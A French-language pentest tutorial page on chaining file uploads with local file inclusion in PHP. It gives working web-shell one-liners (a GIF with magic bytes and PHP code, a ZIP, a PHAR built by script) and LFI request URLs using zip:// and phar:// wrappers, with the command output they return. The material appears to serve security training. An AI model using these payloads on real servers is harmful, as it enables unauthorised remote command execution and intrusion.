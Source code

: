 # LFI and File Uploads

### <mark style="color:blue;">**Exploitation des Téléchargements de Fichiers**</mark>

Le module d’attaques sur le téléchargement de fichiers couvre différentes techniques permettant d’exploiter des formulaires ou des fonctionnalités de téléchargement. Cependant, pour l’attaque que nous allons discuter ici, **le formulaire de téléchargement n’a pas besoin d’être vulnérable**, il doit seulement permettre le téléchargement de fichiers.

Si la fonction vulnérable dans le code backend permet l'exécution de code, alors le contenu du fichier que nous téléchargeons sera exécuté, peu importe son extension ou son type. Par exemple, nous pouvons télécharger un fichier image (par exemple `image.jpg`) contenant un code PHP (au lieu de données d'image). Si ce fichier est inclus via une vulnérabilité LFI, le code PHP sera exécuté, donnant ainsi un accès à distance au serveur.

***

#### <mark style="color:green;">**Fonctions et exécution du code**</mark>

Les fonctions suivantes permettent d’exécuter du code via une inclusion de fichier. Ces fonctions peuvent être utilisées pour l'attaque décrite dans cette section :

| Fonction PHP                  | Lire le contenu | Exécuter | URL distante |
| ----------------------------- | --------------- | -------- | ------------ |
| **include()/include\_once()** | ✅               | ✅        | ✅            |
| **require()/require\_once()** | ✅               | ✅        | ❌            |

***

### <mark style="color:blue;">**Téléchargement d'images et inclusion LFI**</mark>

Les téléchargements d'images sont très courants dans les applications web modernes. Ils sont généralement considérés comme sûrs lorsque la fonction de téléchargement est correctement sécurisée. Cependant, dans ce cas, la vulnérabilité ne réside pas dans le formulaire de téléchargement, mais dans la **fonctionnalité d'inclusion de fichiers**.

<mark style="color:green;">**Création d'une Image Malveillante**</mark>

Le premier objectif est de créer une image malveillante contenant un code PHP tout en restant reconnue comme une image. Voici comment procéder :

1. Utilisez une extension d'image autorisée (par exemple `shell.gif`).
2. Ajoutez les "magic bytes" de l'image (par exemple `GIF8`) au début du fichier pour imiter une vraie image.
3. Ajoutez ensuite le code PHP malveillant.

Commande pour créer le fichier malveillant :

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

**Étapes :**

1. **Téléchargez l'image malveillante** : Accédez à la page de paramètres du profil et téléchargez l'image en tant qu'avatar (par exemple `shell.gif`).
2.  **Obtenez le chemin d'accès** : Après le téléchargement, inspectez le code source de la page pour trouver le chemin du fichier. Par exemple :

    ```html
    <img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
    ```

    Le chemin serait donc `/profile_images/shell.gif`.
3.  **Exploitez la vulnérabilité LFI** : Utilisez la vulnérabilité LFI pour inclure le fichier malveillant et exécuter une commande :

    ```bash
    http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
    ```

    Si exploitable, le serveur renverra le résultat de la commande, par exemple :

    ```
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

***

### <mark style="color:blue;">**Téléchargement de fichiers ZIP**</mark>

Si l'approche précédente ne fonctionne pas, vous pouvez utiliser le wrapper **zip** (s'il est activé sur le serveur).

**Création d'un fichier ZIP malveillant :**

1.  Créez un fichier PHP avec un code malveillant :

    ```bash
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```
2.  Compressez le fichier PHP dans une archive ZIP :

    ```bash
    zip shell.jpg shell.php
    ```

    **Note** : Vous pouvez donner une extension `.jpg` au fichier ZIP pour contourner certains contrôles basés sur l'extension.

**Inclusion via LFI :**

1. Téléchargez le fichier ZIP (`shell.jpg`).
2.  Incluez le fichier avec le wrapper **zip://** en précisant le chemin interne du fichier compressé (`#shell.php`) :

    {% code overflow="wrap" fullWidth="true" %}
    ```bash
    http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
    ```
    {% endcode %}
3. Résultat attendu : Commande exécutée avec succès.

***

### <mark style="color:blue;">**Téléchargement de fichiers PHAR**</mark>

Le wrapper **phar** peut également être utilisé pour exécuter du code malveillant :

<mark style="color:green;">**Création d'un fichier PHAR malveillant :**</mark>

1.  Créez un script PHP pour générer un fichier PHAR :

    ```php
    <?php
    $phar = new Phar('shell.phar');
    $phar->startBuffering();
    $phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
    $phar->setStub('<?php __HALT_COMPILER(); ?>');
    $phar->stopBuffering();
    ```
2.  Exécutez ce script pour générer un fichier PHAR et renommez-le avec une extension `.jpg` :

    ```bash
    php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
    ```

**Inclusion via LFI :**

1. Téléchargez le fichier PHAR (`shell.jpg`).
2.  Incluez-le avec le wrapper **phar://** :

    {% code overflow="wrap" fullWidth="true" %}
    ```bash
    http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
    ```
    {% endcode %}
3. Résultat attendu : Commande exécutée avec succès.

***
